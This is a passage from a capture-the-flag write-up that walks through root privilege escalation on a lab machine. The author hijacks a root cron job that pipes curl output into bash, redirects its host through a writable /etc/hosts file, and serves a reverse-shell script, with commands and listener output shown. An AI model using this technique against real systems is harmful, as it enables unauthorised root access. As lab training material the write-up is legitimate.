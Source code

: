 From here, we can get the user flag at `/home/mario/user.txt`
For some reason, I had issues running `cat` on the text file. I moved it to `/tmp` directory and I could read it fine.
## Privilege Escalation
There is an unusual `up.log` in the `/var/log` directory which has the following contents:
```
mario@mkingdom:/var/log$ cat up.log
There are 39807 folder and files in TheCastleApp in - - - - > Mon Jun 17 06:36:01 EDT 2024.
There are 39807 folder and files in TheCastleApp in - - - - > Mon Jun 17 06:37:01 EDT 2024.
There are 39807 folder and files in TheCastleApp in - - - - > Mon Jun 17 06:38:01 EDT 2024.
```
It seems to perform a check every minute. For a long time I was unsure how it was doing this. I noticed that the `/etc/hosts` file was writeable, which is unusual for CTF challenges. This prompted me to think that the file counter is done via some sort of web request.

Thanks to Tyler Ramsbey I learned of a tool called `pspy` which can monitor for file system changes / changes to the `/proc` directory. This helps you identify running processes.

I copied the `pspy` binary from the [GitHub](https://github.com/DominicBreuker/pspy/blob/master/README.md) to the target machine and ran it. (Note: you will have to clone to your machine and then across to the target, as the target has no internet access).

```
/tmp/pspy64
...
2024/06/17 06:45:01 CMD: UID=0     PID=2591   | /bin/sh -c rm /var/log/up.log
2024/06/17 06:45:01 CMD: UID=0     PID=2590   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
2024/06/17 06:45:01 CMD: UID=0     PID=2589   | CRON
2024/06/17 06:45:01 CMD: UID=0     PID=2588   | CRON
```
The system is making a curl request to `mkingdom.thm:85/app/castle/application/counter.sh`, and then executing it directly as bash. This seems to be part of cron - when I investigated cron jobs I didn't see anything, which suggests to me that this may be a cron job running as root.

Given that we can modify /etc/hosts, let's do it and point `mkingdom.thm` to our own IP address.

And now, on our machine, create the necessary file structure with a `counter.sh` script which is a reverse shell.
```zsh
mkdir app && cd app
mkdir castle && cd castle
mkdir application && cd application
echo "sh -i >& /dev/tcp/<THM_IP_ADDRESS>/4445 0>&1" > counter.sh
cd ../../../
```
Now start a HTTP server on port 85, and a listener on port 4445
```zsh
python3 -m http.server 85
# in separate terminal:
nc -lvp 4445
```
Now, wait a bit and the system should perform the curl request and pass it to bash, resulting in a reverse shell.
```zsh
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
10.10.10.55 - - [17/Jun/2024 06:52:04] "GET /app/castle/application/counter.sh HTTP/1.1" 200 -
```
And our shell:
```
listening on [any] 4445 ...
connect to [10.11.47.141] from kingdom.thm [10.10.10.55] 57230
sh: 0: can't access tty; job control turned off
# whoami
root
```